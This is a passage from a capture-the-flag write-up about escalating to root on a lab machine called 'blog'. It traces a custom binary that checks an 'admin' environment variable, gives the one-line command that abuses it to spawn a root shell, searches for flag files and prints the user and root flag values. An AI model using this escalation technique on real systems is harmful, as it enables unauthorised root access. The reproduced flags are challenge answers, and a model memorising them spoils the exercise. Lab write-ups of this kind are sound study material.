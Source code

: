 There's something unusual, a binary called `/usr/sbin/checker`, let's check it out:

```
www-data@blog:/usr/sbin$ ltrace checker
getenv("admin")                                                                                                             = nil
puts("Not an Admin"Not an Admin
)                                                                                                        = 13
+++ exited (status 0) +++
```

* The binary checks for the environment variable `admin` using `getenv("admin")`.
* If `admin` is not set (`nil`), it prints `"Not an Admin"` and exits.
* **Goal**: Trick the binary into thinking `admin` is set to trigger privileged code (likely a root shell or action).

We can do the following in order to get a root shell:

```
admin=1 /usr/sbin/checker /bin/sh
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250328153450.png)

Let's try reading flags:

```
root@blog:/tmp# cat /home/bjoel/user.txt
You won't find what you're looking for here.

TRY HARDER
```

We need to find the real flag, let's do this:

```
find / -user bjoel \( -name "*flag*" -o -name "*user*" \) 2>/dev/null
/home/bjoel/user.txt
/media/usb/user.txt
```

We got it:

```
root@blog:/tmp# cat /media/usb/user.txt
c8421899aae571f7af486492b71a8ab
```

```
root@blog:/tmp# cat /root/root.txt
9a0b2b618bef9bfa7ac28c1353d9f318
```
